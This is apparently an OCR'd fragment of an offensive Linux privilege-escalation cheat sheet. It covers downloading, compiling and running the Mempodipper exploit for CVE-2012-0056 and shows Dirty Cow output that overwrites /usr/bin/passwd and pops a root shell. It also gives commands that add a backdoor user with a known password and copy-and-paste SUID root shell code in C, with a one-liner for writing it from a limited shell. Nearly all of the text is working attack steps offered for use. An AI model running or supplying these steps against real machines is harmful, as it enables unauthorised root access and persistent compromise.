 [*https://git.zx2c4.com/CVE-2012-0056/about/*](https://git.zx2c4.com/CVE-2012-0056/about/)

Linux CVE 2012-0056
wget -O exploit.c http://www.exploit-db.com/download/18411
gcc -o mempodipper exploit.c
./mempodipper

- CVE-2016-5195 - Dirty Cow - Linux Privilege Escalation - Linux Kernel <= 3.19.0-73.8

[*https://dirtycow.ninja/*](https://dirtycow.ninja/)
First existed on 2.6.22 (released in 2007) and was fixed on Oct 18, 2016
./cow32
DirtyCow root privilege escalation
Backing up /usr/bin/passwd.. to /tmp/bak
Size of binary: 45420
Racing, this may take a while..
thread stopped
thread stopped
/usr/bin/passwd is overwritten
Popping root shell.

- Run a command as a user other than root

sudo -u waldo /usr/bin/vim /etc/apache2/sites-available/000-default.conf

- Add a user or change a password

/usr/sbin/useradd -p 'openssl passwd -1 thePassword' haxzor
echo thePassword | passwd haxzor --stdin

- Local Privilege Escalation Exploit in Linux
    - **SUID** (**S**et owner **U**ser **ID** up on execution)

Often SUID C binary files are required to spawn a shell as a superuser, you can update the UID / GID and shell as required.

below are some quick copy and paste examples for various shells:
SUID C Shell for /bin/bash
int main(void){
setresuid(0, 0, 0);
system("/bin/bash");
}
SUID C Shell for /bin/sh
int main(void){
setresuid(0, 0, 0);
system("/bin/sh");
}
Building the SUID Shell binary
gcc -o suid suid.c
For 32 bit:
gcc -m32 -o suid suid.c

    - Create and compile an SUID from a limited shell (no file transfer)

echo "int main(void){\nsetgid(0); setuid(0);\nsystem(\"/bin/sh\");\n}" >privsc.c

gcc privsc.c -o privsc
